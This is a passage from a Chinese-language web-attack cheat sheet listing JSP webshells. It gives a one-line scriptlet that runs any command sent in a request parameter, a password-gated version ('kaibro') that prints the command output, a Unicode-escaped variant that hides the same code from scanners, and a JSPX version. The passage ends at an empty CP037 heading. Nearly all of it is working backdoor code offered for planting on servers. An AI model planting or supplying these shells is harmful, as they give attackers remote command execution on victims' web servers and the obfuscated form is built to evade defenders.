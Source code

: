 
## JSP Webshell

- 無回顯:

```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

- 有回顯:

```
<%
if("kaibro".equals(request.getParameter("pwd"))) {
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
}
%>
```
- Unicode webshell:

```
<%\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u002E\u0067\u0065\u0074\u0050\u0061\u0072\u0061\u006D\u0065\u0074\u0065\u0072\u0028\u0022\u0069\u0022\u0029\u0029\u003B%>
```

(效果同 `<%Runtime.getRuntime().exec(request.getParameter("i"));%>`)

- JSPX webshell:

```xml
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
Runtime.getRuntime().exec(request.getParameter("i"));
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>
```

- CP037 webshell:

```
```